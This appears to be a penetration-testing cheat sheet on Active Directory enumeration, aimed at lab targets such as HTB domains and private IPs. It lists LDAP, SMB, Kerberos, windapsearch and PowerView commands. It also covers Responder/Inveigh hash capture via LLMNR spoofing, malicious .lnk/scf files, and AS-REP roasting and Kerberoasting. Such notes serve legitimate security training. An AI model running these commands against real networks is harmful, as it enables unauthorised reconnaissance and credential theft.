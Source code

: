 # Enumeration

### <mark style="color:yellow;">Recon</mark>

```powershell
# LDAP Enumeration
ldapsearch -H ldap://dc.zencorp.htb -x -s base namingcontexts

# LDAP
ldapsearch -H ldap://192.168.110.55 -x -s base -b '' "(objectClass=*)" "*" +
```

```powershell
# LDAP Domain dump
ldapdomaindump -u 'domain.tld\username' -p password -o /tmp dc-ip-address
```

```bash
# Find users by SID's
impacket-lookupsid guest@10.10.11.35 -no-pass 
```

```bash
# Enum4linux
enum4linux -P 172.16.5.5
# Enumerate password policy
enum4linux-ng -P 172.16.5.5 -oA ilfreight
```

Use LLMNR/NBT-NS Response Spoofing to capture hashes with Responder or Inveigh. Check for write access on SMB shares. A malicious .lnk or scf file can be used to target the attack host.

```bash
# Responder linux
/sudo responder -I tun0 
# Inveigh in powershell
.\Inveigh.exe
```

### <mark style="color:yellow;">User enumeration</mark>

```bash
# Kerbrute
kerbrute userenum -d ZENCORP.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.175

# GetNPUsers.py 
GetNPUsers.py 'ZENCORP.LOCAL/' -usersfile users.txt -format hashcat -outputfile hashes.aspreroast -dc-ip 10.10.10.175

# Rpcclient
rpcclient -U "" -N 172.16.210.5 rpcclient 
$ enumdomuser

# Crackmapexec
crackmapexec smb 172.16.51.15 --users
crackmapexec smb 172.16.51.51 -u user -p password --users
```

### <mark style="color:yellow;">Windapsearch</mark>

```bash
# Check for bind
python3 windapsearch.py --dc-ip 10.129.1.111 -u "" --functionality

# Get domain users
python3 windapsearch.py --dc-ip 10.129.1.207 -u "" -U

# Get domain computers
python3 windapsearch.py --dc-ip 10.129.1.207 -u "" -C

# Search for OU by user
python3 windapsearch.py --dc-ip 10.129.42.188 -u "" -s "john doe"

# Show groups
python3 windapsearch.py --dc-ip 10.129.42.188 -u "" -G

# Unconstrained delegation
python3 windapsearch.py --dc-ip 10.129.42.188 -u "" -U --unconstrained-users
```

### <mark style="color:yellow;">Ldapsearch-ad.py</mark>

```bash
# Check password policy
python3 ldapsearch-ad.py -l 10.129.1.207 -d zencorp -u john.doe -p pass123 -t pass-pols

# Check for Kerberoastable users
python3 ldapsearch-ad.py -l 10.129.1.207 -d zencorp -u john.doe -p pass123 -t kerberoast | grep servicePrincipalName

# Check ofr ASREPRoastable users
python3 ldapsearch-ad.py -l 10.129.1.207 -d zencorp -u john.doe -p pass123 -t asreproast
```

### <mark style="color:yellow;">Powershell enumeration</mark>

&#x20;A powerfull script is powerview.ps1 [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

```powershell
# Import powerview.ps1
Import-Module .\PowerView.ps1

# Domain info
Get-ADDomain

# Enumerate password policy
Get-DomainPolicy

# Get users
Get-DomainUser

# Get computers
Get-DomainComputer

# Get group objects
Get-DomainGroup

# Get members of group
Get-ADGroupMember -Identity "GroupName" | Select-Object Name,SamAccountName,objectClass

# Check group is nested into
 Get-ADGroup -Identity "IT" -Properties MemberOf | Select-Object -ExpandProperty MemberOf
```

### <mark style="color:yellow;">PowerView enumeration</mark>

```powershell
# Get basic info
Get-NetUser "username"

# Get group memberships
Get-NetGroup -UserName "username"

# Get Domain admins
Get-NetGroupMember "Domain Admins"

# Detailed user permissions
Get-ObjectAcl -SamAccountName "username" -ResolveGUIDs

# Check for high privileged users
Find-InterestingDomainAcl

# Enumerate user rights
Get-DomainUser -AdminCount
```

